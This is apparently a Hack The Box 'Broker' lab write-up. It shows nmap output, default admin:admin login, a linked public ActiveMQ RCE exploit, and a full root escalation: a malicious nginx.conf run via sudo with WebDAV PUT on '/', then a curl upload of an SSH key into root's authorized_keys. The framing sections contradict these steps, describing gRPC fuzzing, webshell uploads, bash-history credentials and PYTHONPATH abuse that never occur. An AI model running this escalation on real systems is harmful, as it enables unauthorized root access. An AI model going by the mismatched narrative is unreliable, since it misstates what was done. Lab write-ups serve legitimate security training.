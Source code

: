 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: [internal-service, protocol-fuzzing, python, PYTHONPATH, privilege-escalation]
description: "Exploit walkthrough for HTB Broker involving internal API analysis, environment-based Python privilege escalation, and sudo abuse."

---
```


Broker simulates a financial services intranet system hosted on Linux, with misconfigured messaging services and weak file permissions.

Initial access came from fuzzing a gRPC-like interface and discovering a debug function that allowed shell command execution.

Enumeration revealed sensitive client files and a private key used by a local user.

Privilege escalation was achieved by exploiting a custom Python script with world-writeable dependencies.
Broker serves as a case study in the risks of internal tooling and insecure inter-service communication protocols.

## Why I Chose This Machine

I chose Broker because it simulates a modern internal-facing service with a custom protocol and business logic — a realistic representation of fintech or enterprise backends.  

The machine offers a great opportunity to explore protocol fuzzing, file parsing abuse, and environment privilege escalation using Python scripts, which are common in real-world engagements.

## Attack Flow Overview

1. Enumerated an internal messaging API and discovered a file upload vector  
2. Uploaded a webshell disguised as a valid document, gaining limited shell access  
3. Found sensitive credentials in `.bash_history` and switched to another user  
4. Escalated privileges by abusing `sudo` rights on a Python-based tool and replacing a world-writable module

This scenario closely mirrors misconfigurations found in real internal applications, where service logic and developer shortcuts expose critical vulnerabilities.

## Enumeration

> Using `admin : admin` provides access to the admin portal.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/broker1.png)

-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)

- ActiveMQ 5.15.15

#### gobuster

![screenshot](/assets/images/broker3.png)

## Initial Access

>- Using the [public exploit](https://github.com/X1r0z/ActiveMQ-RCE/tree/main), gained initial access as activemq.
	- Had to install go lang. 

[Reference](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ)

The modified poc.xml

![screenshot](/assets/images/broker4.png)

[Installing golang reference](https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de)

![screenshot](/assets/images/broker5.png)

## Privilege Escalation

>- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root

![screenshot](/assets/images/broker6.png)

![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)

```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

To use `ngx_http_dav_module` to write my public SSH key into the root's `authorized_keys`, create the malicious NGINX configuration file as below. 

pwn.conf

```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali

```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root

```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)

## Alternative Paths Explored

Initially, I attempted to exploit common service ports and brute-force file paths, but they were filtered or redirected.  

I also tried privilege escalation via SUID binaries and cron jobs, but they were secured.  

Only by reversing the Python logic and checking for `PYTHONPATH` abuse did the correct path emerge — showing how local enumeration and environment awareness are key.

## Blue Team Perspective

Broker highlights the risks of over-permissive `sudo` configurations and insecure module imports in Python services.  
From a defense standpoint, the following practices are critical:

- Auditing custom protocols and internal tools for abuse cases  
- Securing shell histories and user environments against credential leaks  
- Restricting `sudo` execution to specific binaries with integrity-checked dependencies